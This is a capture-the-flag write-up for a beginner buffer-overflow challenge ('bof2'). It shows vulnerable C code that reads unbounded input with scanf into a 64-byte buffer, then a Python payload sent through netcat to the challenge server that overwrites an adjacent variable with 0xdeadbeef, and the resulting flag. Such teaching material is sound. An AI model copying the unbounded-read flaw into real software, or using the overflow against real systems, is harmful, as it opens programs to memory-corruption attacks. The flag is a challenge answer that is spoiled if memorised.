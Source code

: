 # bof2

```
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

int main(void) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
	return 0;
}
```
To capture the flag, we need to change the value of ```correct``` to ```0xdeadbeef```.

Since ```correct``` is just up the stack from ```bof```, we can simply overflow the buffer and write ```0xdeadbeef``` into ```correct```.

Note that the x86 architecture is little-endian, so we have to write the value in the reverse order. The payload was written into a file, due to the special characters in the value ```0xdeadbeef```; this was used as the argument in the Netcat connection.

**Solution**
```
$ python -c "print('A' * 64 + '\xef\xbe\xad\xde')" > my_file
$ cat file my_file | nc ctf.hackucf.org 9001

```

**Flag**
```
flag{buffers_and_beef_make_for_a_yummie_pwn_steak}
```
